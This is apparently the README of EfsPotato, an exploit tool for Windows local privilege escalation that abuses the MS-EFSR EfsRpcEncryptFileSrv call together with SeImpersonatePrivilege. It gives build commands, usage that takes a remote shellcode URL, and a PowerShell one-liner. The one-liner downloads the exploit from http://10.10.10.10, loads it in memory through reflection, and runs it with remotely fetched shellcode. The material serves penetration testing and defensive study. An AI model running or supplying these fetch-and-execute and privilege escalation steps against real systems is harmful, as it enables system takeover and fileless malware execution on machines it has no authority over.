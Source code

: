 ## Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).

### build

	#for 4.x
	csc.exe EfsPotato.cs -nowarn:1691,618
	csc /platform:x86 EfsPotato.cs -nowarn:1691,618
	
	#for 2.0/3.5
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs -nowarn:1691,618
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs -nowarn:1691,618

	#on Linux
	mcs EfsPotato.cs

### usage

	usage: EfsPotato <shellcode_url> [pipe]
  	  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)


### Running in-memory only with reflection
You can also run EfsPotato directly in memory from Powershell using reflection:

	$b=(New-object system.net.webclient).DownloadData("http://10.10.10.10/EfsPotato.exe")
	$a=[System.Reflection.Assembly]::Load($b)
	[EfsPotato.Program]::Main("http://10.10.10.10/shellcode")

![](https://raw.githubusercontent.com/zcgonvh/EfsPotato/master/test.png)
 
